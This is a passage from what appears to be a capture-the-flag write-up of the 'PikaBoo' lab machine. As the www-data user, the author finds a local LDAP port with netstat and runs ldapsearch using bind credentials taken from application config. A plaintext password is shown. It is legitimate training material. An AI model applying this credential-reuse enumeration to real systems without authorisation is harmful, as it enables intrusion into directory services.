 
The DB is SQLite, but there’s also LDAP creds.

#### ldap

`netstat` shows that in addition to the ports already observed, 389 is also
listening locally, which is typically LDAP:

    
    
    www-data@pikaboo:/$ netstat -tnlp
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:389           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      567/nginx: worker p 
    tcp6       0      0 :::21                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      567/nginx: worker p
    

Just like I have on many occasions remotely enumerated LDAP, I can try
`ldapsearch` from PikaBoo:

    
    
    www-data@pikaboo:/$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts
    ldap_bind: Inappropriate authentication (48)
            additional info: anonymous bind disallowed
    

It requires auth. I’ve got the creds from the PokeAPI, and they work:

    
    
    www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'
    # extended LDIF
    #
    # LDAPv3
    # base <> (default) with scope baseObject
    # filter: (objectclass=*)
    # requesting: namingcontexts 
    #
    
    #
    dn:
    namingContexts: dc=htb
    
    # search result
    search: 2
    result: 0 Success
    